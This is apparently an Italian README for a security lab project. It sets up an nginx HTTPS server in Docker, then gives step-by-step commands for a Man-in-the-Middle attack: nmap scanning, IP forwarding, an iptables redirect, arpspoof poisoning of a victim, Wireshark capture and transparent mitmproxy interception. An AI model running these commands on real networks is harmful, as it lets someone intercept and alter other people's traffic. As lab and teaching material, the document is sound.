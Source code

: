# Attacco Man-in-the-Middle tramite ARP spoofing
Questo progetto esplora tecniche di attacco Man-in-the-Middle tramite ARP spoofing, con l'obiettivo di intercettare, analizzare e modificare il traffico di rete tra un client e un server.

## 1. Configurazione del server

### 1.1 Installazione di Nginx

```
$ sudo apt install nginx -y
```

### 1.2 Generazione del certificato self-signed
Creare una directory per i certificati SSL:

```
$ sudo mkdir -p /etc/nginx/ssl
```


Generare un certificato self-signed con OpenSSL:

```
$ sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
-keyout /etc/nginx/ssl/nginx-selfsigned.key \
-out /etc/nginx/ssl/nginx-selfsigned.crt
```

**Descrizione dei parametri**:
- `-x509`: crea un certificato in formato x509.
- `-nodes`: disabilita la richiesta di una passphrase per la chiave privata.
- `-days 365`: imposta la durata del certificato a 365 giorni.
- `-newkey rsa:2048`: genera una nuova chiave RSA a 2048 bit.

### 1.3 Configurazione di Nginx

```
$ sudo nano /etc/nginx/sites-available/default
```

Aggiungere la seguente configurazione, sostituendo `<IP_addr>` con l'indirizzo IP del server:

```
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    server_name <IP_addr>;

    # Reindirizzamento da HTTP a HTTPS
    return 301 https://$host$request_uri;
}

server {
    listen 443 ssl;
    server_name <IP_addr>;

    ssl_certificate /etc/nginx/ssl/nginx-selfsigned.crt;
    ssl_certificate_key /etc/nginx/ssl/nginx-selfsigned.key;

    location / {
        proxy_pass http://localhost:8080;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

### 1.4 Verifica e riavvio di Nginx
Verificare la configurazione e riavviare il servizio:

```
$ sudo nginx -t
$ sudo systemctl restart nginx
```

### 1.5 Avvio dei container Docker
Clonare la repository e avviare i container:

```
$ git clone https://github.com/SenapeDev/CySec.git
$ cd server
$ docker compose up --build -d
```

### 1.6 Gestione della modalità HTTPS
Per attivare o disattivare HTTPS tramite Makefile:

```
$ make https-on
$ make https-off
```
- `https-on`: attiva il reindirizzamento verso HTTPS.
- `https-off`: disattiva il reindirizzamento HTTPS, tornando a HTTP.
---

## 2. Configurazione del MitM

### 2.1 Installazione di Nmap

```
$ sudo apt install nmap -y
```

### 2.2 Scansione della rete locale con Nmap
Per trovare gli indirizzi l'indirizzo IP dell'host che ospita il sito web all'interno della rete locale, eseguire:

```
$ nmap -p 80,443 --open -sV <IP_range>
```

**Descrizione dei parametri**:
- `-sV` rileva i servizi attivi e tenta di identificare l’applicazione web in esecuzione.
- `--open` mostra solo gli host con porte aperte.
- `<IP_range>` è il range degli indirizzi IP in cui viene effettuata la scansione.

### 2.3 Abilitazione del packet forwarding
Abilitare il packet forwarding per consentire la ritrasmissione dei pacchetti tra server e vittima:

```
# echo 1 > /proc/sys/net/ipv4/ip_forward
```

### 2.4 Configurazione di iptables per la redirezione del traffico
Reindirizzare il traffico HTTP verso la porta 8080 (utilizzata da `mitmproxy`):

```
$ sudo iptables -t nat -A PREROUTING -p tcp -s <src_IP> --dport 80 -j REDIRECT --to-port 8080
```

Questo comando utilizza la tabella `nat` di iptables per redirigere il traffico destinato alla porta 80 all’indirizzo specificato, verso la porta 8080. Le modifiche non sono permanenti e saranno rimosse al riavvio.

### 2.5 Verifica delle regole impostate
Per verificare le regole `iptables` attive:

```
$ sudo iptables -t nat -L -v -n
```

Il comando elenca tutte le regole impostate nella tabella `nat` di iptables con dettagli (`-v`) e senza risoluzione di nomi (`-n`).

### 2.6 Installazione di dsniff
Installare `dsniff` per eseguire l’ARP spoofing:

```
$ sudo apt install dsniff
```

### 2.7 Esecuzione di ARP Poisoning
Utilizzare `arpspoof` per ingannare la vittima e farle credere di comunicare con il server:

```
# arpspoof -i <interface> -t <src_IP> <dest_IP>
```

Questo comando invia pacchetti ARP all'indirizzo IP della vittima (`<src_IP>`) per impostare l'indirizzo `<dest_IP>` (il server impersonato) come mittente, sfruttando l'interfaccia di rete specificata (`<interface>`).

### 2.8 Installazione di Wireshark
Per catturare e analizzare il traffico di rete, installare Wireshark:

```
$ sudo apt install wireshark -y
```


### 2.9 Intercettazione di pacchetti con Wireshark
Avviare Wireshark per catturare il traffico:

```
$ sudo wireshark
```

### 2.10 Installazione di mitmproxy
Installare `mitmproxy` per manipolare le richieste:

```
$ pip install mitmproxy
```

### 2.11 Installazione dello script per mitmproxy
```
$ git clone https://github.com/SenapeDev/CySec.git
```
### 2.12 Intercettazione e modifica delle richieste con mitmproxy
Eseguire `mitmproxy` in modalità trasparente per intercettare e modificare il traffico HTTP:

```
$ cd mitm
$ mitmproxy -s main.py --mode transparent
```

Questo comando avvia `mitmproxy` in modalità trasparente (`--mode transparent`) per intercettare il traffico senza configurazioni sul client.